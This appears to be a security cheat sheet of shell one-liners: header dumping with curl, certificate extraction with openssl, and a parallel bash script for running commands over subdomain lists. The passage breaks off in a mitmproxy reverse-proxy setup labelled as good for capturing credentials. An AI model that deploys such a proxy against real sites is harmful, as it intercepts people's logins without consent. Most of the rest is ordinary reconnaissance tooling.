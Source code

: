 ```http://localhost:9001/2018-06-01/runtime/invocation/next```
<br># Print only response headers for any method with curl
<br>```curl -skSL -D - https://www.example.com -o /dev/null```

<br># Extract website certificate
<br>```true | openssl s_client -connect www.example.com:443 2>/dev/null | openssl x509 -noout -text```

<br># Pure bash multhread script
```
#!/bin/bash

FILE="${1}"
THREADS="${2}"
TIMEOUT="${3}"
CMD="${4}"
NUM=$(wc -l ${FILE} | awk '{ print $1 }')
THREAD=0
NUMDOM=0
while read SUBDOMAIN; do
        PIDSTAT=0
        if [ $THREAD -lt $THREADS ]; then
                eval timeout ${TIMEOUT} ${CMD} 2>/dev/null &
                PIDS[$THREAD]="${!}"
                let THREAD++
                let NUMDOM++
                echo -ne "\r>Progress: ${NUMDOM} of ${NUM} ($(awk "BEGIN {printf \"%0.2f\",(${NUMDOM}*100)/${NUM}}")%)\r"
        else
                while [ ${PIDSTAT} -eq 0 ]; do
                        for j in "${!PIDS[@]}"; do
                                kill -0 "${PIDS[j]}" > /dev/null 2>&1
                                PIDSTAT="${?}"
                                if [ ${PIDSTAT} -ne 0 ]; then
                                        eval timeout ${TIMEOUT} ${CMD} 2>/dev/null &
                                        PIDS[j]="${!}"
                                        let NUMDOM++
                                        echo -ne "\r>Progress: ${NUMDOM} of ${NUM} ($(awk "BEGIN {printf \"%0.2f\",(${NUMDOM}*100)/${NUM}}")%)\r"
                                        break
                                fi
                        done
                done
        fi
done < ${FILE}
wait
```

<br># Reverse Proxy (mitmproxy)
<br>```mitmdump --certs ~/cert/cert.pem --listen-port 443 --scripts script.py --set block_global=false --mode reverse:https://example.com/``` # Good for capture credentials
```
$ cat script.py
import mitmproxy.http
from mitmproxy import ctx
